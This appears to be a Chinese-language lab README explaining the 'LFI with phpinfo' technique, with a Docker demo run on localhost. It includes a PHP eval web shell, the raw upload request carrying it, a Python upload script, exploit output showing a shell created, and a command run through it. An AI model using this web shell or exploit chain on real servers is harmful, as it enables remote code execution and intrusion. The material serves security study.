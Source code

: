 # LFI with phpinfo

原理: 利用php post上传文件产生临时文件，phpinfo()读临时文件的路径和名字，本地包含漏洞生成1句话后门

demo: 源码存放在 code目录下， 利用docker再现

参考：

[http://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf][1]

[http://www.insomniasec.com/publications/LFI%20With%20PHPInfo%20Assistance.pdf][2]

## php 上传

向服务器上任意php文件**post请求上传文件**时，都会生成临时文件，可以直接在phpinfo页面找到临时文件的路径及名字。

* post上传文件

php post方式上传任意文件，服务器都会创建临时文件来保存文件内容。

在HTTP协议中为了方便进行文件传输，规定了一种基于表单的[ HTML文件传输方法 ][3]

其中要确保上传表单的属性是 enctype=”multipart/form-data，必须用POST 参见: [ php file-upload.post-method ][5] 

其中PHP引擎对enctype=”multipart/form-data”这种请求的处理过程如下：

‍1、请求到达；

‍2、创建临时文件，并写入上传文件的内容；

‍3、调用相应PHP脚本进行处理，如校验名称、大小等；

‍4、删除临时文件。

PHP引擎会首先将文件内容保存到临时文件，然后进行相应的操作。临时文件的名称是 php+随机字符 。

* $_FILES信息，包括临时文件路径、名称

在PHP中，有超全局变量$_FILES,保存上传文件的信息，包括文件名、类型、临时文件名、错误代号、大小


## 手工测试phpinfo()获取临时文件路径

* html表单

文件 upload.html

```
<!doctype html>
<html>
<body>
    <form action="phpinfo.php" method="POST" enctype="multipart/form-data">
    <h3> Test upload tmp file</h3>
    <label for="file">Filename:</label>
    <input type="file" name="file"/><br/>
    <input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>
```

* 浏览器访问 upload.html, 上传文件 file.txt

```
<?php
eval($_REQUEST["cmd"]);
?>
```

* burp 查看POST 信息如下

```
POST /LFI_phpinfo/phpinfo.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:44.0) Gecko/20100101 Firefox/44.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/LFI_phpinfo/upload.html
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------11008921013555437861019615112
Content-Length: 368

-----------------------------11008921013555437861019615112
Content-Disposition: form-data; name="file"; filename="file.txt"
Content-Type: text/plain

<?php
eval($_REQUEST["cmd"]);
?>

-----------------------------11008921013555437861019615112
Content-Disposition: form-data; name="submit"

Submit
-----------------------------11008921013555437861019615112--
```

* phpinfo获得如下信息：

```
_REQUEST["submit"]	
    Submit
    
_POST["submit"]	
    Submit
    
_FILES["file"]	
    Array
    (
        [name] => file.txt
        [type] => text/plain
        [tmp_name] => /tmp/phpufdCHh
        [error] => 0
        [size] => 33
    )
```

得到tmp_name 路径

## python 程序查看

```
import requests

host = '127.0.0.1'
url = 'http://{ip}/LFI_phpinfo/phpinfo.php'.format(ip=host)
file_ = '/var/www/LFI_phpinfo/file.txt'

response = requests.post(url, files={"name": open(file_, 'rb')})

print(response.text)
```

* 结果

```
<tr><td class="e">_FILES["name"]</td><td class="v"><pre>Array
(
    [name] =&gt; file.txt
    [type] =&gt; 
    [tmp_name] =&gt; /tmp/php7EvBv3
    [error] =&gt; 0
    [size] =&gt; 33
)
```

## 临时文件的权限

```
-rw------- 1 www-data www-data 91 Feb 25 18:10 phpkO4ITS
```

## 本地搭建 demo

* get shell

```
$ python lfi_phpinfo.py 127.0.0.1

LFI with phpinfo()
==============================
INFO:__main__:Getting initial offset ...
INFO:__main__:found [tmp_name] at 67801
INFO:__main__:
Got it! Shell created in /tmp/g
INFO:__main__:Wowo! \m/
INFO:__main__:Shutting down...
```

* firefox 访问 

```
http://127.0.0.1/LFI_phpinfo/lfi.php?load=/tmp/gc&f=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
``` 

## docker 构建

* 镜像源

-- [php:5.6-apache 官方源][3]
或
-- [janes/lfi_phpinfo][4]

php:5.6-apache 官方源

```
With Apache
More commonly, you will probably want to run PHP in conjunction with Apache httpd. Conveniently, there's a version of the PHP container that's packaged with the Apache web server.

Create a Dockerfile in your PHP project
FROM php:5.6-apache
COPY src/ /var/www/html/
Where src/ is the directory containing all your php code. Then, run the commands to build and run the Docker image:

$ docker build -t my-php-app .
$ docker run -d --name my-running-app my-php-app
We recommend that you add a custom php.ini configuration. COPY it into /usr/local/etc/php by adding one more line to the Dockerfile above and running the same commands to build and run:

FROM php:5.6-apache
COPY config/php.ini /usr/local/etc/php/
COPY src/ /var/www/html/
Where src/ is the directory containing all your php code and config/ contains your php.ini file.
```

* 构建

切换到web目录下

```
cd web
```

--docker run test

```
docker run --rm -v code/:/var/www/html -p 80:80 php:5.6-apache
```

--docker image build

```
docker build -t "janes/lfi_phpinfo"
docker run --rm -p "80:80" janes/lfi_phpinfo
```

--docker-compose

```
docker-compose up
```

[1]: http://gynvael.coldwind.pl/download.php?f=PHP_LFI_rfc1867_temporary_files.pdf
[2]: http://www.insomniasec.com/publications/LFI%20With%20PHPInfo%20Assistance.pdf
[3]: https://hub.docker.com/_/php/
[4]: https://hub.docker.com/r/janes/lfi_phpinfo/